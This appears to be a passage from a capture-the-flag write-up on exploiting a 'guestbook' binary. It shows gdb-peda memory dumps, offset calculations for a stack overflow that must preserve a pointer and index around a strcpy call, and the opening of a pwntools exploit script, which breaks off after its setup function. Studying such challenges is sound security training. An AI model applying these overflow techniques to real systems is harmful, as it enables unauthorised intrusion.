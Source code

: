 ```
0016| 0xffffd0a0 --> 0xffffd0bf --> 0x56 ('V')
0020| 0xffffd0a4 --> 0x0 
0024| 0xffffd0a8 --> 0xc10000 
0028| 0xffffd0ac --> 0x0 
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value

Breakpoint 1, 0x5655598c in main ()
gdb-peda$ p $eax
$1 = 0x56558008
gdb-peda$ x/x 0x56558008
0x56558008:	0x30303030
gdb-peda$ x/x $ebp-0x2c
0xffffd0fc:	0x56558008
gdb-peda$ x/w $ebp-0x2c
0xffffd0fc:	0x56558008
gdb-peda$ find 15935728
Searching for '15935728' in: None ranges
Found 2 results, display max 2 items:
 [heap] : 0x56558020 ("15935728\n")
[stack] : 0xffffd090 ("15935728")
gdb-peda$ x/x $ebp-0x34
0xffffd0f4:	0x00
```

Calculate the offsets:
```
>>> hex(0xffffd0f4 - 0xffffd090)
'0x64'
>>> hex(0xffffd0fc - 0xffffd090)
'0x6c'
```

So in order for the `strcpy` call to be successful, we need to leave three things. The first is the pointer to an area of memory we are going to write to (we are just going to use the heap space allocated for the first name), an index that will point to that pointer, and data that can be written to the pointer without breaking anything. For the pointer, we can see that the offset is `0x6c`, and the pointer itself we can get from the infoleak earlier. The index we can see should be the integer `0x0` and is stored at an offset of `0x64` from the start of our input. Lastly, for the data that is being copied we can just have a null byte after the first four bytes of our input, since `strcpy` will only copy up untill that null byte but gets will continue reading untill a newline character.

Putting this all together we can write the exploit:

```
#Import pwntools
from pwn import *

#Establish the target process, and hand it over to gdb
target = process('./guestbook')
#gdb.attach(target)

#Establish the function which will create the first four names
def start():
	print target.recvuntil(">>>")
	target.sendline("15935")
	print target.recvuntil(">>>")
	target.sendline("75395")
	print target.recvuntil(">>>")
	target.sendline("01593")
	print target.recvuntil(">>>")
	target.sendline("25319")


```